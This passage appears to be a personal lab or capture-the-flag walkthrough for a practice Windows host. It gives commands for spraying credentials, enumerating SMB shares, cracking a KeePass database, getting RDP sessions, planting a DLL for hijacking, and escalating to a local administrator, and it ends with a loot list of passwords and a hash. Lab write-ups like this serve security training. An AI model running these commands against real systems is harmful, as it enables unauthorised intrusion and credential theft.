 - Spraying existing credentials collected from `249`, will reveal `maildmz`, `damon`, `adrian` are all users on `248`
	- Running `netexec smb 192.168.209.248 -d . -u damon -p i6yuT6tym@ --shares` will reveal two non-default shares: `transfer` and `Users`.
- Running `smbclient //192.168.209.248/transfer -U ./damon%i6yuT6tym@` to enumerate SMB share will find  a `KeePass` file `Database.kdbx` under `\DB-back (1)\New Folder\Emma\Documents\`.
	- Run `keepass2john Database.kdbx > keepass.hash` and `john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash` to crack the plaintext password as `welcome1`. ![[Pasted image 20240220140324.png]]
	- Then, run `keepassxc`, load and use the master key `welcome1` to find the password for user `emma` as `SomersetVinyl1!`![[Pasted image 20240220142419.png]]
- Spraying the newly found credential, we can find `emma` has `rdp` access to the current host. Run `xfreerdp /v:192.168.209.248 /u:emma /p:SomersetVinyl1\! /drive:resources,/home/saxon/Desktop /dynamic-resolution` to obtain an `rdp` session.![[Pasted image 20240220142602.png]]
# PrivEsc
- Under `C:\`, we can find a interesting executable `BetaMonitor.exe` along with a log file indicating that it is constantly loading a missing `dll` called `BetaLibrary.Dll`.![[Pasted image 20240220145932.png]]
	- Run `schtasks /query /v /fo LIST > task.txt` and looks for `BetaMonitor.exe` can identify that the executable is ran as `system` at start-up.![[Pasted image 20240220150144.png]]
- While we don't have write privilege to the directory where the executable is located, `winpeas`will identify a weird path belongs to `emma` added to the system path. This is the place we can place out malicious `DLL`.![[Pasted image 20240220152103.png]]
	- Run `copy \\tsclient\resources\BetaLibrary.dll C:\Users\emma\AppData\Local\Microsoft\WindowsApps` and wait for a shell call back.
	- <mark>A Fucking Rabbit Hole;A Fucking Scam!!</mark>
- `winpeas` will identify a `Appkey` in User Environmental Variable which is the password of  user `mark`, a local administrator :<![[Pasted image 20240220154027.png]]
	- Run `xfreerdp /v:192.168.209.248 /u:mark /p:\!8@aBRBYdb3\! /drive:resources,/home/saxon/Desktop` to obtain an `rdp` session and bypass `UAC`.
# Loot
- `emma`: SomersetVinyl1!
- `mark`:!8@aBRBYdb3!
- `Administrator`: 56e4633688c0fdd57c610faf9d7ab8df